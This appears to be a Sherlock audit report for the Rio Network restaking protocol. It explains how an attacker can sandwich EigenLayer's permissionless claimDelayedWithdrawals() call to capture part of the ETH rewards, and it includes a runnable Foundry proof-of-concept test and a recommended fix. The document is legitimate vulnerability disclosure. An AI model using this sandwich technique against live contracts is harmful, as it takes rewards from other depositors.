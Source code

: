 Rural Tweed Lemur

medium

# A part of ETH rewards can be stolen by sandwiching `claimDelayedWithdrawals()`

## Summary
Rewards can be stolen by sandwiching the call to [EigenLayer::DelayedWithdrawalRouter::claimDelayedWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/DelayedWithdrawalRouter.sol#L99).

## Vulnerability Detail
The protocol handles ETH rewards by sending them to the [rewards distributor](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTRewardDistributor.sol). There are at least 3 flows that end-up sending funds there:
1. When the function [RioLRTOperatorDelegator::scrapeNonBeaconChainETHFromEigenPod()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTOperatorDelegator.sol#L150) is called to scrape non beacon chain ETH from an Eigenpod.
2. When a validator receives rewards via partial withdrawals after the function [EigenPod::verifyAndProcessWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L232) is called.
3. When a validator exists and has more than 32ETH the excess will be sent as rewards after the function [EigenPod::verifyAndProcessWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L232) is called.

All of these 3 flows end up queuing a withdrawal to the [rewards distributor](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTRewardDistributor.sol). After a delay the rewards can claimed by calling the permissionless function [EigenLayer::DelayedWithdrawalRouter::claimDelayedWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/DelayedWithdrawalRouter.sol#L99), this call will instantly increase the TVL of the protocol.

An attacker can take advantage of this to steal a part of the rewards:
1. Mint a sensible amount of `LRTTokens` by depositing an accepted asset
2. Call [EigenLayer::DelayedWithdrawalRouter::claimDelayedWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/DelayedWithdrawalRouter.sol#L99), after which the value of the `LRTTokens` just minted will immediately increase.
3. Request a withdrawal for all the `LRTTokens` via [RioLRTCoordinator::requestWithdrawal()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99).

### POC
Change [RioLRTRewardsDistributor::receive()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTOperatorDelegator.sol#L244-L246) (to side-step a gas limit bug:
```solidity
receive() external payable {
    (bool success,) = address(rewardDistributor()).call{value: msg.value}('');
    require(success);
}
```

Add the following imports to `RioLRTOperatorDelegator`:
```solidity
import {IRioLRTWithdrawalQueue} from 'contracts/interfaces/IRioLRTWithdrawalQueue.sol';
import {IRioLRTOperatorRegistry} from 'contracts/interfaces/IRioLRTOperatorRegistry.sol';
import {CredentialsProofs, BeaconWithdrawal} from 'test/utils/beacon-chain/MockBeaconChain.sol';
```
To copy-paste in `RioLRTOperatorDelegator.t.sol`:

```solidity
function test_stealRewards() public {
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    uint256 aliceInitialBalance = 40e18;
    uint256 bobInitialBalance = 40e18;
    deal(alice, aliceInitialBalance);
    deal(bob, bobInitialBalance);
    vm.prank(alice);
    reETH.token.approve(address(reETH.coordinator), type(uint256).max);
    vm.prank(bob);
    reETH.token.approve(address(reETH.coordinator), type(uint256).max);

    //->Operator delegator and validators are added to the protocol
    uint8 operatorId = addOperatorDelegator(reETH.operatorRegistry, address(reETH.rewardDistributor));
    RioLRTOperatorDelegator operatorDelegator =
        RioLRTOperatorDelegator(payable(reETH.operatorRegistry.getOperatorDetails(operatorId).delegator));

    //-> Alice deposits ETH in the protocol
    vm.prank(alice);
    reETH.coordinator.depositETH{value: aliceInitialBalance}();
    
    //-> Rebalance is called and the ETH deposited in a validator
    vm.prank(EOA, EOA);
    reETH.coordinator.rebalance(ETH_ADDRESS);

    //-> Create a new validator with a 40ETH balance and verify his credentials.
    //-> This is to "simulate" rewards accumulation
    uint40[] memory validatorIndices = new uint40[](1);
    IRioLRTOperatorRegistry.OperatorPublicDetails memory details = reETH.operatorRegistry.getOperatorDetails(operatorId);
    bytes32 withdrawalCredentials = operatorDelegator.withdrawalCredentials();
    beaconChain.setNextTimestamp(block.timestamp);
    CredentialsProofs memory proofs;
    (validatorIndices[0], proofs) = beaconChain.newValidator({
        balanceWei: 40 ether,
        withdrawalCreds: abi.encodePacked(withdrawalCredentials)
    });
    
    //-> Verify withdrawal crendetials
    vm.prank(details.manager);
    reETH.operatorRegistry.verifyWithdrawalCredentials(
        operatorId,
        proofs.oracleTimestamp,
        proofs.stateRootProof,
        proofs.validatorIndices,
        proofs.validatorFieldsProofs,
        proofs.validatorFields
    );

    //-> A full withdrawal for the validator is processed, 8ETH (40ETH - 32ETH) will be queued as rewards
    verifyAndProcessWithdrawalsForValidatorIndexes(address(operatorDelegator), validatorIndices);

    //-> Bob, an attacker, does the following:
    //      1. Deposits 40ETH and receives ~40e18 LRTTokens
    //      2. Cliam the withdrawal for the validator, which will instantly increase the TVL by ~7.2ETH
    //      3. Requests a withdrawal with all of the LRTTokens 
    {
        //1. Deposits 40ETH and receives ~40e18 LRTTokens
        vm.startPrank(bob);
        reETH.coordinator.depositETH{value: bobInitialBalance}();

        //2. Cliam the withdrawal for the validator, which will instantly increase the TVL by ~7.2ETH
        uint256 TVLBefore = reETH.assetRegistry.getTVL();
        delayedWithdrawalRouter.claimDelayedWithdrawals(address(operatorDelegator), 1); 
        uint256 TVLAfter = reETH.assetRegistry.getTVL();

        //->TVL increased by 7.2ETH
        assertEq(TVLAfter - TVLBefore, 7.2e18);

        //3. Requests a withdrawal with all of the LRTTokens 
        reETH.coordinator.requestWithdrawal(ETH_ADDRESS, reETH.token.balanceOf(bob));
        vm.stopPrank();
    }
    
    //-> Wait and rebalance
    skip(reETH.coordinator.rebalanceDelay());
    vm.prank(EOA, EOA);
    reETH.coordinator.rebalance(ETH_ADDRESS);

    //-> Bob withdraws the funds he requested
    vm.prank(bob);
    reETH.withdrawalQueue.claimWithdrawalsForEpoch(IRioLRTWithdrawalQueue.ClaimRequest({asset: ETH_ADDRESS, epoch: 0}));

    //-> Bob has stole ~50% of the rewards and has 3.59ETH more than he initially started with
    assertGt(bob.balance, bobInitialBalance);
    assertEq(bob.balance - bobInitialBalance, 3599550056000000000);
}
```

## Impact
Rewards can be stolen by sandwiching the call to [EigenLayer::DelayedWithdrawalRouter::claimDelayedWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/DelayedWithdrawalRouter.sol#L99), however this requires a bigger investment in funds the higher the protocol TVL.

## Code Snippet

## Tool used

Manual Review

## Recommendation
When requesting withdrawals via [RioLRTCoordinator::requestWithdrawal()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99) don't distribute the rewards received in the current epoch.